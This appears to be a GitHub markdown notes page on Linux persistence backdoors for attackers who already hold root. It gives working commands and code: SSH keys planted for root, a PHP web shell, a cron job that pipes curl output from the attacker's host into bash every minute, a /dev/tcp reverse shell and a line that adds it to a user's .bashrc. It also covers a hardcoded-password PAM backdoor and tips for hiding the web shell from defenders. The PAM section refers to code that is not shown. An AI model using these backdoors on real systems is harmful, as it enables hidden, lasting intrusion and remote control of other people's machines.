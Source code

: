 d# Backdoor 

## backdoor using ssh
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- ssh backdoor 
	```
	ssh-keygen
	```
	- Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys
	- give the private key the right permissions using : chmod 600 id\_rsa

## PHP backdoor
you can try creating a php file with any name and putting inside this piece of code

- php backdoor code
	```php
	<?php  
    if (isset($\_REQUEST\['cmd'\])) {  
        echo "<pre>" . shell\_exec($\_REQUEST\['cmd'\]) . "</pre>";  
    }  
	?>
	```
	
**tips**
1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## cronjob backdoor
this backdoor consist of creating a cronjob!
take a look at your cronjobs file, which is /etc/cronjob
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.
- crontab script
	```
	* *     * * *   root    curl http://<yourip>:8080/shell | bash
	```
	Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

	We first use "curl" to download a file , and then we pipe it to "bash"

	The contents of the "shell" file that we are using are simply :
	```bash
	#!/bin/bash 
	bash -i >& /dev/tcp/ip/port 0>&1
	```
	We would have to run an HTTP server serving our shell.

	You can achieve this by running : "python3 -m http.server 8080"  
	Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
	Don't forget to listen on your specified port with "nc -nvlp <port>"
	
## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## pam unix 
	We can see that we added a new line to our code : "if (strcmp(p, "0xMitsurugi") != 0 )"

Okay, if this code looks confusing to you at first, don't worry!

We'll break it down together!

So first, we have to know what the function "strcmp" does.

This function basically compares 2 strings.

In the screenshot above, we compare the variable "p" and the string "0xMitsurugi".

The variable "p" stands for the user's supplied password. In other words, the password that the user-supplied.

You can also see "!=0" at the end of the statement. This means "if not successful". So, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix\_verify\_password" will be used.

But on the other hand, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM\_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam\_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam\_unix.so"

So let's do a little recap:

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix\_verify\_password" function. When using the "unix\_verify\_password" function to authenticate, the function takes

the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam\_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Since this method is slowly becoming more and more popular, you probably won't be able to do it every time, as everybody would slowly but surely, understand how to protect themselves.

Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
	

	
	
